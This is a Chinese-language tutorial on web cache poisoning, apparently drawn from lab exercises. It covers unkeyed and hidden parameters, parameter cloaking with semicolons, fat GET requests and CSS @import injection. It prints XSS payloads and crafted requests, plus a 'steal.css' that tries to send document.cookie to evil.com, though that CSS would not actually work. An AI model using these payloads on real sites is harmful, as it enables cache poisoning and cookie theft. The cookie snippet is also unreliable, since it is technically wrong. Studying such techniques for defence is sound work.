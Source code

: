 ### 参数能被利用且未键控

输入如下参数 ，发现存在 XSS 漏洞：

```
evil='/><script>alert(1)</script>
```

![image-20250422151754402](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422151754402.png)

如果多次请求并命中缓存，且正常访问页面，会出现 XSS，表明此参数被缓存排除，但被 Web 应用正常解析。

![image-20250422151852987](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422151852987.png)



### 存在能被利用未键控的隐藏参数

仍然存在 XSS 漏洞。

![image-20250422152755404](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422152755404.png)

但多次请求并且 hit 后，访问主页，发现没有触发 XSS，说明此参数被作为缓存键。

使用 Param Miner 挖掘隐藏的未被作为缓存键的参数。

![image-20250422153137286](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422153137286.png)

挖到了 utm_content 参数。那么使用 utm_content 构造恶意请求并命中缓存后访问主页看是否有 XSS。

![image-20250422153400101](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422153400101.png)

缓存成功：

![image-20250422153454925](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422153454925.png)

### 缓存与后端参数解析不一致

- **漏洞场景**：
  - 缓存排除特定参数，但后端未正确解析分隔符。
  - 后端支持非常规分隔符（如 `;`），而缓存仅支持标准分隔符（如 `&`）。
  - 后端允许参数重复，并优先取最后一个值。

向服务器请求 js 回调函数和数据。

![image-20250422161113271](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422161113271.png)

修改 callback 的话，返回的回调函数会改变：

![image-20250422162102140](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422162102140.png)

那么改成 callback=alert(1) 的话会 xss 2 self。

![image-20250422162216187](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422162216187.png)

要想让他缓存中毒的话，需要利用缓存与后端解析参数不一致的漏洞，使得缓存命中缓存键 callback=setCountryCookie，然而后端解析 callback=alert(1)

构造一下参数，使得前后端解析不一致：

```
callback=setCountryCookie&utm_content=foo;callback=alert(1)

# 缓存将其解析为两个参数：callback=setCountryCookie 和 utm_content=foo
# 在后端，Ruby on Rails 会看到分号，并将查询字符串拆分为三个单独的参数
```

通过如上手法将 self xss 提升到 web 缓存中毒。

### 参数放到请求体时变为未键控（fat Get）

发现 get 请求能传递请求体参数：

![image-20250422164458078](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422164458078.png)

而且缓存键是根据请求行中的参数命中的，而后端解析的确是请求体的参数。

![image-20250422164403113](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422164403113.png)

重复发送上述数据包，导致命中 callback=setCountryCookie 的缓存键，却返回了 callback=alert(1) 的响应。

![image-20250422164348737](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250422164348737.png)

有时，您可以通过覆盖 HTTP 方法来鼓励 “fat ” 处理：

```
GET /?param=innocent HTTP/1.1
Host: innocent-website.com
X-HTTP-Method-Override: POST
…
param=bad-stuff-here
```

### 其他利用手法：在资源导入（Import）里注入动态内容

##### 前提：

- CSS 资源存在反射拼接字符串。
- 请求 CSS 资源不会被作为缓存键。

##### 资源导入

网页往往通过两种方式加载样式表（CSS）等子资源：

- HTML 中的 `<link rel="stylesheet" href="…">`
- CSS 中的 `@import url("…");`

这两者本质上都会向服务器发送一个 GET 请求，拿回 `.css` 文件内容，浏览器再解析执行其中的规则。

##### 动态反射查询字符串

通常静态资源（如 `/style.css`）不管 URL 带不带查询参数，服务器都给同一份内容。如果服务器不小心把请求的 query string（或者其中某个参数）**原样拼回**到它输出的 CSS 里，就成了“动态内容”。例如，它可能把 `?theme=summer` 直接加到 `@import` 语句中：

```
/* 服务器在输出时把 `theme` 参数拼进来了 */
@import url("/common/base.css?theme=summer");
```

##### 案例

请求：

```
GET /style.css?theme=summer);@import url('https://evil.com/steal.css');/*
Host: victim.com
```

响应（缓存不会将 theme 作为缓存键）：

```
/* 原有内容 */
@import url("/common/reset.css?theme=summer");@import url('https://evil.com/steal.css');/*
body { margin:0; padding:0; }
```

中毒：

攻击者在自己的服务器上放一个 `steal.css`，内容如下：

```
css复制编辑/* steal.css */
body {
  /* 利用 CSS 的 background-image 触发向攻击者服务器 exfiltrate 文档 cookie */
  background-image: url("https://evil.com/log?cookie="+document.cookie);
}
```

当任意页面（或 CSS）通过 `@import "/style.css?...“` 加载被污染的 `/style.css` 时，浏览器就会继续加载并执行 `steal.css`，从而把用户的 `document.cookie` 发送给攻